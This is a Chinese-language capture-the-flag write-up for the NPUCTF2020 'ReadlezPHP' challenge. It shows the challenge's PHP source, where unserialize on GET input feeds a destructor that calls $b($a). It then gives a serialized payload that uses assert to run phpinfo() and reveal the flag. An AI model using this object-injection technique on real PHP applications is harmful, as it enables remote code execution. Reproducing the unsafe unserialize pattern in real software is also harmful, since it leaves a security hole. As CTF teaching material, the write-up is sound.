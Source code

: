 # [NPUCTF2020]ReadlezPHP

## 知识点

`php反序列化`

## 解题

首先给出网页

![](./img/[NPUCTF2020]ReadlezPHP-1.png)

没有发现什么东西，查看一下源码后发现了路径`time.php?source`

![](./img/[NPUCTF2020]ReadlezPHP-2.png)

进入后给出网站源码

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);


2024-02-15 03:04:44
```

发现是反序列化，尝试先执行`phpinfo`看一下

```php
<?php
class HelloPhp
{
    public $a;
    public $b;
}

$c = new HelloPhp();
$c -> a = 'phpinfo();';
$c -> b = 'assert';

echo serialize($c);	// O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}
```

结果`flag`直接就在`phpinfo`里

![](./img/[NPUCTF2020]ReadlezPHP-3.png)